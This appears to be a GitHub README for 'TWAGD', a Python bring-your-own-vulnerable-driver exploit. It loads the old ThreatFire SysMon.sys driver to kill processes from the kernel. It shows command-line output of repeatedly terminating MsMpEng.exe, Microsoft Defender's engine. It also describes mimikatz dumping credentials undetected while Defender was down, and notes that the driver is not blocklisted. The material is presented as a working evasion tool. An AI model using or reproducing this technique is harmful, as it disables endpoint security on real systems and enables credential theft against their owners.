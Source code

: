 # TWAGD
Today Was A Good Day is a BYOVD exploit that uses Python to evade detection 

TWAGD uses the vulnerable TfSysMon driver from ThreatFire System Monitor (2013) caleld SysMon.sys to either singularly or perpetually terminate a process from the kernel. The script is written in Python to bypass standard executable detection mechanisms. 

As of 2/21/2025 the SysMon.sys driver is not blocked by Microsoft. 

Below is an output of the CLI when the script is executed. 

```
python .\twagd_constant.py MsMpEng.exe
[!] Installing and starting the driver...
[SC] CreateService FAILED 1072:
The specified service has been marked for deletion.
[!] Driver service created successfully.
[SC] StartService FAILED 1058:
The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
[!] Driver started successfully.
[!] Monitoring process for termination. Press Enter to stop.
[!] Press Enter to stop monitoring and remove the driver...
[!] Killing process with PID: 3932
[!] Process with PID 3932 termination requested via driver.
[!] Killing process with PID: 7084
[!] Process with PID 7084 termination requested via driver.
[!] Killing process with PID: 9836
[!] Process with PID 9836 termination requested via driver.
[!] Killing process with PID: 9732
[!] Process with PID 9732 termination requested via driver.
[!] Killing process with PID: 7504
[!] Process with PID 7504 termination requested via driver.
[!] Killing process with PID: 11292
[!] Process with PID 11292 termination requested via driver.
[!] Killing process with PID: 4428
[!] Process with PID 4428 termination requested via driver.
[!] Killing process with PID: 1788
[!] Process with PID 1788 termination requested via driver.
[!] Stopping and removing the driver...
[SC] ControlService FAILED 1052:
The requested control is not valid for this service.
[SC] DeleteService FAILED 1072:
The specified service has been marked for deletion.
[!] Driver service deleted successfully.
```

During this execution, mimikatz.exe was dropped on disk, executed, and dumped credentials from memory without detection. On termination of the script, mimikatz.exe was still not detected until the next scan or if you tried to execute it while on disk. 

